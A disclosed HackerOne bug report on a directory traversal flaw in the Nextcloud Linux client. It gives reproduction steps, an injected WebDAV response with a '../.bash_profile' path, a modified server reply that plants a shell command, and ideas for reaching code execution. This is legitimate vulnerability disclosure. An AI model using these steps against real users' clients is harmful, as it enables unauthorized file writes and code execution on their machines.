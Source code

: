 # Linux client is vulnerable to directory traversal when downloading files

## Report Details
- **Report ID**: 590319
- **URL**: https://hackerone.com/reports/590319
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2019-05-26T04:50:06.211Z
- **Disclosed**: 2020-08-17T12:57:06.364Z

## Reporter
- **Username**: netranger
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nextcloud

## Vulnerability Information
## Summary

The Nextcloud Linux client is vulnerable to directory traversal when downloading files from a Nextcloud server. A malicious Nextcloud administrator can exploit the vulnerability to write arbitrary files to a user computer(s) with the potential for remote command execution under certain conditions.

## Reproduction

The issue is exploited via a two step process. It is possible to do this using a proxy such as Burp suite, but it is tricky and involves modifying some server replies while also passing through others. The general process is:

Configure the client to use a proxy like Burp and set Burp to intercept server replies for review. Allow all client and server requests/responses to pass except the ones listed here. Force sync or wait for the client to issue the request "PROPFIND /nextcloud/remote.php/dav/files/admin/" with body paramters of:
<?xml version="1.0" ?>
<d:propfind xmlns:d="DAV:" xmlns:oc="http://owncloud.org/ns">
  <d:prop>
    <d:resourcetype />
    <d:getlastmodified />
    <d:getcontentlength />
    <d:getetag />
    <oc:id />
    <oc:downloadURL />
    <oc:dDC />
    <oc:permissions />
    <oc:checksums />
    <oc:data-fingerprint />
    <oc:share-types />
  </d:prop>
</d:propfind>

Forward it. When the server replies, insert an entry in the XML response for an available file. The file name in the HREF tag of the modification data is the vulnerable parameter. For example, you could insert the following:
<d:response><d:href>/nextcloud/remote.php/dav/files/user/../.bash_profile</d:href><d:propstat><d:prop><d:resourcetype/><d:getlastmodified>Tue, 30 Apr 2020 20:44:16 GMT</d:getlastmodified><d:getcontentlength>37042</d:getcontentlength><d:getetag>&quot;08b9d12b0e2263f92820e8b4706a42c7&quot;</d:getetag><oc:id>00000051ocya3bx9cxde</oc:id><oc:downloadURL></oc:downloadURL><oc:permissions>RGDNVW</oc:permissions><oc:data-fingerprint></oc:data-fingerprint><oc:share-types/></d:prop><d:status>HTTP/1.1 200 OK</d:status></d:propstat><d:propstat><d:prop><oc:dDC/><oc:checksums/></d:prop><d:status>HTTP/1.1 404 Not Found</d:status></d:propstat></d:response>

Note the path /nextcloud/remote.php/dav/files/user/../.bash_profile. When the client goes to write this file to disk, it will write traverse to the directory above the sync location (~/Nextcloud/ by default, so would end up at ~/)

Next, the client should send a request to the server requesting the file, like so:
GET http://192.168.144.128/nextcloud/remote.php/dav/files/user/../.bash_profile HTTP/1.1
Host: 192.168.144.128
Authorization: Basic abc123
User-Agent: Mozilla/5.0 (Linux) mirall/2.5.2git (build 20190319) (Nextcloud)
Accept: */*
X-Request-ID: 4a1e1d20-283b-4072-9d24-9f39cf7db243abc123
Cookie: nc_sameSiteCookielax=true; nc_sameSiteCookiestrict=true; ocya3bx9cxde=rvam; oc_sessionPassphrase=srq12bLDYJI8abc123
Connection: Keep-Alive
Accept-Encoding: gzip, deflate
Accept-Language: en-US,*

The server should reply saying the file wasn't found. Modify the response to become:

HTTP/1.1 200 OK
Connection: close
Content-Type: text/text; charset=utf-8
Content-Length: 93
ETag: 08b9d12b0e2263f92820e8b4706a42c7

echo "It worked! Nextcloud Linux client directory traversal/code execution proof of concept."

...and the content will be written to ~/.bash_profile instead of ~/Nextcloud/.bash_profile

To simplify the process, I created a proof of concept Python script and attached it here. The script must be run with Python3 and requires the requests HTTP library. It listens on port 8080 and is a proxy; it forwards all requests from the client to the real Nextcloud server. The proxy reviews each request and if it detects one of the aforementioned vulnerable requests, it modifies the server reply appropriately. For PoC purposes the filename is test.txt.

To use, open a terminal and run 'python3 poc.py'. Open the Nextcloud client settings, go to Network, and set it to use a proxy of 127.0.0.1 port 8080. You can force a sync if one does not trigger. After it syncs you should get a file 'test.txt' written one level above your Nextcloud sync folder.

For testing purposes an http-only Nextcloud server is needed, as the proxy is not SSL capable.

The proxy is not completely reliable, you may need to get the proxy running, then set the Nextcloud client to use proxy address 127.0.0.1:8080. If you have any issues identifying or reproducing this please let me know.

## Impact

## Limitations

Some limitations surrounding this vulnerability:
- Only new files can be written to disk. I have not found a way to overwrite existing files, i.e. if ~/test.txt already exists it won't get overwritten by the attacker's content.
- An attacker can only write files to locations the Nextcloud program has permission to access.
- The attacker must continously have the intercept running to keep the file on the target's system. If you stop the proof of concept script, the client interprets the exploit file's absence in the next sync as meaning it was deleted elsewhere, so it deletes the local copy. 

## Impact

Since an attacker cannot overwrite existing files, this makes getting anything useful from the exploit harder, but not impossible. I have noticed with Ubuntu 16.04 and 18.04 systems the ~/.bash_profile file is absent by default. Bash executes any commands in this file when the user logs in from a terminal (not the GUI and not when opening the Terminal app within the GUI). An attacker could potentially get remote code execution by:
- Exploiting the Nextcloud client to write ~/.bash_profile containing shell commands.
- Getting lucky and having the user log in via SSH or virtual console. For example, in Ubuntu, pressing CTRL+ALT+F1 at the GUI login screen brings up a virtual console. Logging in here will execute ~/.bash_profile.

An attacker could also write various executable files (jar, sh, bin, etc) to various places on the user's system and hope the user, not knowing how they got there, would execute one.

Other exploit payloads might exist, this is all I could come up at this time.

## Scope
If a Nextcloud server adminstrator wanted to exploit the vulnerability, they could do so on the Nextcloud server itself by modifying the core code and not rely in traffic interception. Modifying the Nextcloud PHP code directly would also have the benefit of removing SSL as a limitation. 

The Nextcloud security scope document states Nextcloud administrators are expected to have ability to access all user files and execute code on the server. However, with this vulnerability Nextcloud administrators could potentially execute code on remote user clients, which they may not have control over. 

Sorry for the long winded report. :) If I can provide any further information please let me know. Thanks!

## Attachments
- nextcloud_poc.py
